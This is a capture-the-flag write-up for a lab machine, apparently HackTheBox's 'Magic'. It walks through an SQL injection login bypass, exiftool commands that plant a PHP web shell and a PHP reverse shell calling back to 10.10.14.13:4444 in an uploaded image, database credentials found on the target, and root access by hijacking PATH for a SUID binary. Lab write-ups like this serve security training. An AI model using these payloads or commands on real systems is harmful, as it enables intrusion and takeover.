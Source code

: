 #InProgress 
```IP
10.10.10.185
```
# Enumeration

As always I start with nmap:
```
sudo nmap -sCV 10.10.10.185 -vvv -p- -oN enum/full
```
## HTTP 80
Apache httpd 2.4.29 ((Ubuntu))
There is a login page
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241227100201.png?raw=true)
When submitting a single quote it does not prompt any alert:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241227100140.png?raw=true)
It seems like we have a SQLi vulnerability. Let's exploit it.
# Exploitation
If we intercept the request we can bypass the login:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241227102100.png?raw=true)
Download an example image and modify it with exiftool as follows:
```
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' lo.jpg
```
```
exiftool -Comment='<?php $sock=fsockopen("10.10.14.13",4444);passthru("sh <&3 >&3 2>&3"); ?>' lo.jpg
```

Exiftool is a great tool to view and manipulate exif-data. Then I had to rename the file
```
mv lo.jpg lo.php.jpg
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241227105025.png?raw=true)
We have RCE.
After some trial and error, if we upload a php reverse shell our listener will get a estable shell:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241227112332.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241227112532.png?raw=true)

# PrivEsc

## Manual
It seems like we have another user `theseus` whose flag we can't read:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241227112816.png?raw=true)

There seems to be sql database. We can find credentials inside the following file `/var/www/Magic/db.php5`:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241227114315.png?raw=true)
There is a local port where mysql seems to be executing. Let's use ligolo to port forward to it:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241227114731.png?raw=true)
In our local machine we will execute the following commands:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241227114836.png?raw=true)
And in another terminal:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241227114851.png?raw=true)
And in the target machine we will wget the ligolo-proxy and connect:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241227114921.png?raw=true)
we can now connect to the database with the following command:
```
mysql -h 240.0.0.1 -P 3306 -u theseus -p Magic --password='iamkingtheseus' --ssl=FALSE
```
Where we can get credentials:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241227122604.png?raw=true)
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241227122700.png?raw=true)
If we run linpeas again we will find a SUID marked binary which we can now execute since we are in the users group now
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241227125356.png?raw=true)
Analyzing the binary with `ltrace` we find that it calls fdisk without specifying the full path.
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241227125249.png?raw=true)
So let's export our current directory to PATH and create there a malicious `fdisk`file, giving it execute permissions too:
```
export PATH=$(pwd):$PATH
```
```
echo '#!/bin/bash' > fdisk
```
```
echo 'chmod u+s /bin/bash' >> fdisk
```
```
chmod +x fdisk
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241227130012.png?raw=true)

After executing it again we get SUID bash, which we can exploit with:
```
bash -p
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241227130220.png?raw=true)




## Automated

### Peass

### Mimikatz

# Lateral Movement
